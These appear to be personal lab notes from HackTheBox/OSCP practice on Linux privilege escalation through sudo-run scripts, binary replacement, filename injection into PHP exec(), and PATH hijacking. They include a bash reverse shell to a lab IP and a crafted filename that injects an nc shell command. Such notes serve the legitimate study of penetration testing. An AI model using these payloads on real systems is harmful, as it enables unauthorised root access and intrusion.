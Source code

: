 Now execute the getprofile.sh script as sudo and find the cmdsubsys.txt file containing the root ssh key. 

## Service Binary Replacement
Scenario - after running `sudo -l`, discover a .sh script we can execute as root. 

This sh script restarts a service binary called nagios. 

Determine that nagios binary is owned by us 
```
stat /usr/local/nagios/bin/nagios
```

![[HackTheBox/Linux/attachments/Pasted image 20250506210424.png]]

Rename the `nagios` binary to `nagios~`

```
mv nagios nagios~
```

Create a new file called `nagios` and paste in reverse shell. Make it executable `chmod +x`

```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.10/9001 0>&1
```

Set up nc listener. Restart the nagios service with sudo permissions. Catch root shell.

## Exploiting php exec() function
- this function is like sudo and executes as root

Example php code to exploit for priv esc 
```
    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```
- we can control $value by inserting malicious file 

```
touch -- ';nc -c bash 10.10.14.3 9001;.php'
```

## Path Hijacking

Notice this string within a SUID binary we have access to
![[OSCP/attachments/Pasted image 20250622211738.png]]
- tar utiity is no using absolute path -> can hijack for priv esc

```
echo /bin/bash > tar
```

```
export PATH=/home/matt:$PATH
```
